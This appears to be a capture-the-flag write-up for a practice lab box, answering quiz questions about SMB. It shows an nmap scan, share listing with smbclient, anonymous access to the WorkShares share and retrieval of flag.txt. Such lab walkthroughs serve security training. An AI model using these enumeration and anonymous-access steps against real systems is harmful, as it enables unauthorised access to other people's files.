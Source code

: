 What does the 3-letter acronym SMB stand for? Server Message Block.

What port does SMB use to operate at? Port 445 (or 139, NetBIOS).
```bash
nmap -sV -A -T4 10.129.71.114
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Host script results:
| smb2-time:
|   date: 2024-03-21T18:12:02
|_  start_date: N/A
|_clock-skew: 3h59m59s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
```

What is the service name for port 445 that came up in our scan? `microsoft-ds`.

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?
```bash
sudo pacman -S smbclient
smbclient -L 10.129.71.114
Password: (empty)
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN\$         Disk      Remote Admin
        C\$             Disk      Default share
        IPC\$           IPC       Remote IPC
        WorkShares      Disk
```

What is the name of the share we are able to access in the end with a blank password? WorkShares.

```bash
smbclient -N //10.129.71.114/Workshares
smb: \> ls
smb: \> cd James.P
smb: \> get flag.txt
```
